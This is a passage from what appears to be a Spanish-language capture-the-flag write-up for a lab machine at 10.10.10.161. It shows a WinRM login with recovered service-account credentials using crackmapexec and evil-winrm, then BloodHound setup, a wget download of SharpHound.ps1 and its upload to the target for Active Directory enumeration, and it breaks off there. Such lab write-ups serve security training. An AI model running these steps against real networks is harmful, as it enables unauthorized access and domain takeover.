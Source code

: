 Esta utilidad nos retorna un mensaje como que no son las buenas credenciales. Si es el caso vamos si nos podemos connectar
por win-rm.


## Vuln exploit & Gaining Access {-}

### Ganando accesso con Win-RM {-}

```bash
crackmapexec winrm 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
```

Aqui vemos quel usuario es (Pwn3d!)

```bash
evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
```

ya estamos a dentro de la maquina y podemos ver la flag del usuario.


### Enumeracion del systema para preparar la escalada de privilegios {-}

1. instalamos bloodhound y neo4j

    ```bash
    sudo apt install neo4j bloodhound
    ```

1. lanzamos neo4j service

    ```bash
    sudo neo4j console
    ```

1. lanzamos bloodhound

    ```bash
    bloodhound --no-sandbox &> /dev/null &
    disown
    ```

1. connectamos bloodhound al neo4j database
1. Collectamos la data con SharpHound.ps1

    - descargamos en sharphound
    
        ```bash
        wget https://raw.githubusercontent.com/puckiestyle/powershell/master/SharpHound.ps1
        ```

    - lo uploadeamos desde el evil-winrm

        ```bash
        upload SharpHound.ps1
        ```
